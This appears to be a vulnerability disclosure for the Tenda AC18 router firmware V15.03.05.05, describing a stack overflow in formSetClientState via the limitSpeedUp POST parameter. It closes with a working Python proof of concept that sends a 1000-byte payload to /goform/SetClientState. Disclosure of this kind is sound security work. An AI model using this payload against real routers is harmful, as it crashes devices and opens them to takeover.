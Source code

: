 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `formSetClientState` function. The `v10` variable receives the `limitSpeedUp` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `v10` can trigger this security vulnerability.

![image-20240306000226211](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306000226211.png)

![image-20240306000240089](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306000240089.png)

![image-20240306000256998](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306000256998.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetClientState"
payload = b"a"*1000

data = {'limitEn':1,"limitSpeedUp": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240305223636784](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305223636784.png)
